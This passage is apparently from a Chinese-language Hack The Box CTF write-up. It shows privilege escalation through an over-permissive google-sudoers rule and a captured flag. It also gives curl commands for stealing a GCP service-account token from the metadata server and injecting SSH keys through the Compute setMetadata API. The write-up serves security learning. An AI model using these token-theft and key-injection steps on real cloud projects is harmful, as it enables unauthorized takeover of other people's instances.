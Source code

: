 
该用户是有 root 组的 sudo 权限的

```bash
> ssh -i key tari@127.0.0.1

tari@vault-instance:~$ id
uid=1003(tari) gid=1004(tari) groups=1004(tari),4(adm),30(dip),44(video),46(plugdev),1000(google-sudoers)

tari@vault-instance:~$ sudo su
root@vault-instance:/home/tari# cd
root@vault-instance:~# ls
flag.txt
root@vault-instance:~# cat flag.txt
HTB{iam.root.becauseiwasgivenTooManyPrivileges}

root@vault-instance:/home/tari# cat /etc/sudoers.d/google_sudoers
%google-sudoers ALL=(ALL:ALL) NOPASSWD:ALL
```

> HTB{iam.root.becauseiwasgivenTooManyPrivileges}
> 

这里也 curl 利用方式，这种就需要自己获取 fingerprint

```bash
curl -X POST https://compute.googleapis.com/compute/v1/projects/ctfs-417807/setMetadata -H Authorization: Bearer <access_token> -H "Content-Type: application/json" --data '{"items": [{"key": "ssh-keys"}, "value": "ssh用户:ssh公钥"], "fingerprint": "<fingerprint>"}'
```

> `access_token` 从 `http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token?alt=json` 或 `http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/vault-27@ctfs-417807.iam.gserviceaccount.com/token` 获取
> 

不过如果获取 fingerprint 走下面这个接口会有问题

```bash
curl https://compute.googleapis.com/compute/v1/projects/ctfs-417807 -H "Authorization: Bearer <access_token>"
```

会报权限不足错

```bash
Required 'compute.projects.get' permission for 'projects/ctfs-417807
```

然后 http 接口的话，不走 metadata 接口也可以这样看当前 access_token 的 scopes

```bash
curl 'https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=<access_token>'
```

## 0x04 CloudOfSmoke
